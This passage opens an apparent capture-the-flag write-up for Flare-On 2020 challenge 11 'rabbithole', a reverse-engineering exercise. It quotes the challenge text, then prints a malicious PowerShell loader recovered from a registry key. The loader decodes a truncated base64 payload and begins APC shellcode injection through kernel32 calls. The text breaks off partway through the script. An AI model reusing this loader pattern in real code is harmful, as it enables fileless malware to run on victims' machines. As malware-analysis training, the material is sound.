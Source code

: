 ## Flare-On 2020 - #11 rabbithole
___

### Description: 

*One of our endpoints was infected with a very dangerous, yet unknown malware strain that operates in a fileless manner. The malware is - without doubt - an APT that is the ingenious work of the Cyber Army of the Republic of Kazohinia.*

*One of our experts said that it looks like they took an existing banking malware family, and modified it in a way that it can be used to collect and exfiltrate files from the hard drive.*

*The malware started destroying the disk, but our forensic investigators were able to salvage ones of the files. Your task is to find out as much as you can about the behavior of this malware, and try to find out what was the data that it tried to steal before it started wiping all evidence from the computer.*

*Good luck!*

`7zip password: flare`
___

### Solution:


For the final challenge we are given `NTUSER.DAT`:
```
NTUSER.DAT: MS Windows registry file, NT/2000 or above
```

To parse this file we use [Registry Explorer](https://ericzimmerman.github.io/#!index.md). After some searching
we found a PowerShell script under `HKEY_CURRENT_USER\SOFTWARE\Timerpro` key:
```powershell
[HKEY_CURRENT_USER\SOFTWARE\Timerpro]
;Last write timestamp 2020-07-17T11:15:08.4290564Z
"D"="$jjw=\"kcsukccudy\";

function fromBase64{[System.Convert]::FromBase64String($args[0]);};
[byte[]]$rpl=fromBase64(\"6feZAAA0BgBuMWFe34CyvFBFtRPwA[... LONG BASE64 STRING ...]AAAAAAAAAA\");

function geapmkxsiw{$kjurpkot=fromBase64($args[0]);[System.Text.Encoding]::ASCII.GetString($kjurpkot);};

$cqltd="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax,uint itqxlvpc,IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi,IntPtr qlr,IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc,uint igyv);";

$tselcfxhwo=Add-Type -memberDefinition $cqltd -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj="ffcx";$nayw="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy,IntPtr htdgqhgpwai,uint uxn,uint mepgcpdbpc,uint xdjp);";

$ywqphsrw=Add-Type -memberDefinition $nayw -Name 'pqnvohlggf' -namespace rmb -passthru;

$jky="epnc";

$kwhk=$tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
```